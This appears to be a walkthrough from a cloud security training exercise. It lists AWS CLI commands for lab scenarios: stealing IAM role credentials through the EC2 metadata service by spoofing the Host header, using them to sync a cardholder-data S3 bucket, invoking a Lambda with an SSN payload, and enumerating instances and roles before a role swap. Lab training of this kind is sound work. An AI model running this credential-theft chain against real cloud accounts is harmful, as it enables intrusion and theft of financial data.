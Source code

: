 `curl http://18.159.62.175/latest/meta-data/iam/security-credentials/  -H "Host:169.254.169.254"` - `cmd`

### **Get security credentials**

`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`

### **Configure the banking profile**

`aws configure --profile <sc2-ec2-banking>`

`aws configure set aws_session_token <your_role_token> --profile <sc2-ec2-banking>`

### **Download the cardholder data**

`aws s3 ls --profile sc2-ec2-banking`

`aws s3 sync s3://<bucket-name> ./cardholder-data --profile sc2-ec2-banking`

### **Invoke a lambda to complete the scenario_2**

`aws lambda invoke --function-name Sc2FinCheck_username --payload '{"SSN":"xxx-xx-xxx"}'  --profile scenario2_username output.json`

> #### ***In case of decoding error use the following format:***

> `aws lambda invoke --function-name Sc2FinCheck_username --payload '{"SSN":"xxx-xx-xxx"}' --profile scenario2_username --cli-binary-format raw-in-base64-out response.json`

CMD:
> `aws lambda invoke --function-name Sc2FinCheck_username --payload "{""SSN"":""xxx-xx-xxx""}" --profile scenario2_username --cli-binary-format raw-in-base64-out response.json`
---

# **Scenario_3**

  Dashboard  <https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html>

`aws configure --profile scenario3_username`

### Get lists EC2 instances, identifying target of instances

`aws ec2 describe-instances --profile scenario3_username`

`aws iam list-instance-profiles --profile scenario3_username`

### Get existing instance profiles and roles within the account

`aws iam list-roles --profile scenario3_username`

### Swap the role with the other role
